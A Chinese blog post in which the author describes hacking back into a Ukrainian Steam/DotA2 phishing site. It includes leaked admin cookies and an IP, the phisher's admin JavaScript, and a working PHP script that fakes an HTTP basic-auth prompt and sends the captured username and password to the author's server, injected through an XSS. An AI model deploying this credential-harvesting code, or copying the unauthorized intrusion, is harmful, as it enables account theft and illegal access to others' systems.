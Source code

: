 ```yaml
---
layout: post
title: 乌克兰老油条的钓鱼站 [Steam DotA2]
---
```

#### 0x01

距离上次发表 DotA2 钓鱼文章《[巧遇 Dota2 钓鱼，我的做法是？](http://rm-rf.gg/2015/07/08/What-should-i-do.html)》已经过去快一年了，今天下午 erevus 在群里丢出来了另外一个通过 Steam 联系他进行钓鱼诈骗的网站，渗透过程虽然简单但比去年那个稍微有趣点儿，正如标题所说这次是乌克兰黑客的钓鱼站点。

黑客通过自动化的流程来散播钓鱼网站，其中以我这里有份报价交易，点击后就可以交易成功为由来骗取用户点击登录（当然，帐号密码输入错误依然能够登录）：

![https://ooo.0o0.ooo/2016/05/31/574d4d5bedf0a.png](https://ooo.0o0.ooo/2016/05/31/574d4d5bedf0a.png)

与去年的钓鱼站点不同的是，这次他会询问用户 Steam 异地登录所需要的验证码，如果用户提交了验证码那么意味着黑客能够即便在异地有安全提醒的情况下登录受害者帐号，显然和之前需要通过社工成分来盗取游戏帐号方式相比，今天这个成功率则会更高。

#### 0x02

通过几分钟的测试，我发现了一个跨站点，她可能会影响后台数据输出，稍后我收到了黑客的 location, cookie, ip, HTTP_REFERER：

    location : http://admin.go*********ta2.com/index.php
    toplocation : http://admin.go*********ta2.com/index.php
    cookie : __utma=251685023.1558413631.1441653368.1453357322.1453471007.15; __utmz=251685023.1441653368.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utma=232923726.1388362062.1441719367.1459415637.1462876758.237; __utmz=232923726.1441719367.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none)
    HTTP_REFERER : http://admin.go*********ta2.com/index.php
    HTTP_USER_AGENT : Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/50.0.2661.102 Safari/537.36
    REMOTE_ADDR : 91.221.179.206, 91.221.179.206
    
现在我们拿到了后台地址，访问后看到网站需要 401 认证，也就不难理解在刚刚我们获取到的 Cookie 内容里面没有看到相关的敏感认证字段：

![https://ooo.0o0.ooo/2016/05/31/574d50087c7ec.png](https://ooo.0o0.ooo/2016/05/31/574d50087c7ec.png)

现在我生成了一份与域名、认证提示信息（HI!）相关的 PasswordList ，准备爆破测试看看能否进入这个后台，徒劳过后我开始编写基础认证攻击代码准备反钓攻击者。

> 基础认证攻击
> 
> 一般情况下，大部分Web服务器都是默认配置为匿名访问的，也就是说，用户在访问服务器上的资源时一般不会收到提示认证的信息，匿名访问意味着用户不需要输入用户名和密码即能访问网站，这样更有利于服务器与用户之间的可交互性，也是绝大多数公共网站所使用的配置。　
> 
> 可当服务器如果配置了访问页面需要基本身份认证，那么客户端(浏览器)在访问网站特定页面时将会弹出需要身份验证的登录框，即要求输入用户名和密码才能访问此页面。这是一个正常的HTTP基本身份认证，客户端提供的验证请求在HTTP协议中被定义为WWW ——验证标头字段 (WWW-Authenticate header field)。　　
> 
> “基础认证钓鱼”主要是利用HTTP Auth(基础连接认证)方式，将恶意链接作为图片网址发到论坛帖、博客文章和评论、邮件正文等处，当用户访问页面时会自动弹出登录框，如果用户不加辨识就输入登录信息，那么这些信息就可能被钓鱼者所窃取。

编写基础认证攻击代码 test.php 要求访问该页面的用户输出 401 认证所需要的帐号密码，点击登录后将获取填写的表单内容发送给我的服务器，由于跨站代码是在钓鱼网站后台触发的，也就意味着如果嵌入成功基础认证攻击代码，钓鱼网站管理员在打开后台时会发现需要一次 401 验证。由于前面提到这个站点本身就是需要认证登录的，所以本次的成功率可能会很高，钓鱼者以为是自己的后台需要重新认证。（基础钓鱼认证防范相关：在需要验证的地方会有 ip/domain 请求用户名和密码，仔细看清楚这个 ip/domain 是否为可信任站点，否则可能为恶意认证攻击。）

    ./test.php
    
    <?
    error_reporting(0);

    if ((!isset($_SERVER['PHP_AUTH_USER'])) || (!isset($_SERVER['PHP_AUTH_PW']))) {
        header('WWW-Authenticate: Basic realm="'.addslashes(trim($_GET['info'])).'"');
        header('HTTP/1.0 401 Unauthorized');
        echo 'Authorization Required.';
        exit;
    } else if ((isset($_SERVER['PHP_AUTH_USER'])) && (isset($_SERVER['PHP_AUTH_PW']))) {
        header("Location: http://xxx.xxx.xxx.xxx:8000/test?id={$_GET[id]}&username={$_SERVER[PHP_AUTH_USER]}&password={$_SERVER[PHP_AUTH_PW]}");
    }

一根烟的功夫，成功收到后台认证的帐号密码：

![https://ooo.0o0.ooo/2016/05/31/574d531e8e8c6.png](https://ooo.0o0.ooo/2016/05/31/574d531e8e8c6.png)

#### 0x03

当然渗透的过程还有很多有趣的地方，比如 Whois 反查看到老油条的另外几个钓鱼站也是很有趣，进入后台后是这样子：

![https://ooo.0o0.ooo/2016/05/31/574d56088a415.png](https://ooo.0o0.ooo/2016/05/31/574d56088a415.png)

不知道是不是乌克兰老司机都喜欢这么玩还是什么原因，攻击者在后台代码中加入了奇怪的声音提醒。。。使用 Ajax 动态更新后台收到的帐号密码，如果有新的鱼儿上钩，则会自动播放女声：啊哦~~

    function SendGet3() {
        var asd =GodObj.one;
        var abs = GodObj1.two;
        $$('result',$$('result').innerHTML+'<br />первый'+asd+'второй'+abs);
            if( melod == "up"){ if( asd != abs){
        $$('result1',$$('result1').innerHTML+'<audio src="/assests/music/sound.mp3" autoplay="autoplay"></audio>');
         $$a({
      type:'get',
      url:'/inc/ajax.php',
      data:{'z':'1'},
      response:'text',
      success:function (data) {   
       GodObj.one = data;
         $$('result',$$('result').innerHTML+'<br /> Первый'+GodObj.one);
         
         
